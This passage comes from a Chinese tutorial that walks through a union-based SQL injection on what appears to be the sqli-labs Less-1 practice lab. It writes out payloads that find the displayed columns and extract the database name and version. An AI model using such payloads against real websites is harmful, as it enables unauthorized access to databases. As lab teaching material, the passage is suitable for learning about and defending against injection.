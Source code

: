 

2. 注入<code>?id=-1'union select 1,2,3--+</code>爆显示位，看表格里哪一列在页面显示；可看到第二列和第三列里的数据显示在页面

~~~ shell
?id=-1'union select 1,2,3--+
~~~

![Less-1_12](./img/Less-1_12.png)



3. 注入<code>?id=-1'union select 1,database(),version()--+</code>获取当前数据库名和版本号，这个涉及mysql数据库的一些函数，记得就行

~~~ shell
?id=-1'union select 1,database(),version()--+
~~~

![Less-1_14](./img/Less-1_14.png)
